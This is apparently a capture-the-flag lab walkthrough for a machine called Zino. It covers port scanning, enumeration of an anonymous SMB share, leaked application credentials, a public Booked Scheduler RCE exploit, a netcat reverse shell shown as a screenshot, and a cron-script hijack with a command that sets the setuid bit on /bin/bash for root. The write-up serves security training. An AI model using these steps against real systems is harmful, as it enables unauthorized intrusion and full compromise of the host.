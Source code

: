 # Zino

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.64 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 09:52 +08
Nmap scan report for 192.168.157.64
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8003/tcp open  mcreport
```

### FTP + SMB Enumeration

FTP doesn't allow for anonymous logins, but SMB does have shares we can read.&#x20;

```
$ smbmap -H 192.168.157.64         
[+] IP: 192.168.157.64:445      Name: 192.168.157.64                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        zino                                                    READ ONLY       Logs
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```

We can login to `zino`:

```
$ smbclient //192.168.157.64/zino                                             
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul 10 03:11:49 2020
  ..                                  D        0  Tue Apr 28 21:38:53 2020
  .bash_history                       H        0  Tue Apr 28 23:35:28 2020
  error.log                           N      265  Tue Apr 28 22:07:32 2020
  .bash_logout                        H      220  Tue Apr 28 21:38:53 2020
  local.txt                           N       33  Sun Jul 16 09:51:53 2023
  .bashrc                             H     3526  Tue Apr 28 21:38:53 2020
  .gnupg                             DH        0  Tue Apr 28 22:17:02 2020
  .profile                            H      807  Tue Apr 28 21:38:53 2020
  misc.log                            N      424  Tue Apr 28 22:08:15 2020
  auth.log                            N      368  Tue Apr 28 22:07:54 2020
  access.log                          N     5464  Tue Apr 28 22:07:09 2020
  ftp                                 D        0  Tue Apr 28 22:12:56 2020

                7158264 blocks of size 1024. 4725468 blocks available
```

The `misc.log` contained credentials for some software:

```
$ cat misc.log  
Apr 28 08:39:01 zino systemd[1]: Starting Clean php session files...
Apr 28 08:39:01 zino CRON[2791]: (CRON) info (No MTA installed, discarding output)
Apr 28 08:39:01 zino systemd[1]: phpsessionclean.service: Succeeded.
Apr 28 08:39:01 zino systemd[1]: Started Clean php session files.
Apr 28 08:39:01 zino systemd[1]: Set application username "admin"
Apr 28 08:39:01 zino systemd[1]: Set application password "adminadmin"
```

### Booked RCE

The only web port was port 8003, and it led us to this login page:

<figure><img src="../../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

There are some exploits for this:

```
$ searchsploit booked            
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Booked Scheduler 2.7.5 - Remote Command Execution (Metaspl | php/webapps/46486.rb
Booked Scheduler 2.7.5 - Remote Command Execution (RCE) (A | php/webapps/50594.py
Booked Scheduler 2.7.7 - Authenticated Directory Traversal | php/webapps/48428.txt
----------------------------------------------------------- ---------------------------------
```

We can use the credentials we got earlier to have RCE:

<figure><img src="../../../.gitbook/assets/image (77) (7).png" alt=""><figcaption></figcaption></figure>

We can then get a reverse shell through `nc`:

<figure><img src="../../../.gitbook/assets/image (24) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob Exploit --> Root

I downloaded `linpeas.sh` onto the machine and ran a scan. It found a cronjob we could hijack:

<figure><img src="../../../.gitbook/assets/image (51) (7).png" alt=""><figcaption></figcaption></figure>

We can write to this file:

```
www-data@zino:/tmp$ ls -la /var/www/html/booked/cleanup.py
-rwxrwxrwx 1 www-data www-data 164 Apr 28  2020 /var/www/html/booked/cleanup.py
```

Here's the script contents:

```
www-data@zino:/home/peter$ cat /var/www/html/booked/cleanup.py 
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /var/www/html/booked/uploads/reservation/* ')
except:
        print 'ERROR...'
sys.exit(0)
```

Since there's a `sys.exit(0)` function at the end, we cannot just append code. What we can do is just create a completely new `cleanup.py` file within that directory.&#x20;

```bash
echo 'import os;os.system("chmod u+s /bin/bash")' > cleanup.py
```

Then we can just wait for a bit for the script to execute.&#x20;

<figure><img src="../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>
